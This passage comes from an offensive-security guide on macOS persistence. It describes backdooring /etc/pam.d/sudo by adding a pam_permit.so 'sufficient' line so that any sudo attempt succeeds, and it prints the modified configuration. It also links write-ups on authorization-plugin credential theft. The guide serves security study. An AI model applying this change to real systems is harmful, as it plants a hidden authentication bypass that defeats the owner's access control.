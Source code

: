 ### PAM

Writeup: [Linux Hacktricks PAM](../linux-hardening/linux-post-exploitation/pam-pluggable-authentication-modules.md)\
Writeup: [https://theevilbit.github.io/beyond/beyond\_0005/](https://theevilbit.github.io/beyond/beyond\_0005/)

* Useful to bypass sandbox: [🟠](https://emojipedia.org/large-orange-circle)
  * But you need to be root

#### Location

* Root always required

#### Description & Exploitation

As PAM is more focused in **persistence** and malware that on easy execution inside macOS, this blog won't give a detailed explanation, **read the writeups to understand this technique better**.

Check PAM modules with:&#x20;

```bash
ls -l /etc/pam.d
```

A persistence/privilege escalation technique abusing PAM is as easy as modifying the module /etc/pam.d/sudo adding at the beginning the line:

```bash
auth       sufficient     pam_permit.so
```

So it will **looks like** something like this:

```bash
# sudo: auth account password session
auth       sufficient     pam_permit.so
auth       include        sudo_local
auth       sufficient     pam_smartcard.so
auth       required       pam_opendirectory.so
account    required       pam_permit.so
password   required       pam_deny.so
session    required       pam_permit.so
```

And therefore any attempt to use **`sudo` will work**.

{% hint style="danger" %}
Note that this directory is protected by TCC so it's higly probably that the user will get a prompt asking for access.
{% endhint %}

### Authorization Plugins

Writeup: [https://theevilbit.github.io/beyond/beyond\_0028/](https://theevilbit.github.io/beyond/beyond\_0028/)\
Writeup: [https://posts.specterops.io/persistent-credential-theft-with-authorization-plugins-d17b34719d65](https://posts.specterops.io/persistent-credential-theft-with-authorization-plugins-d17b34719d65)
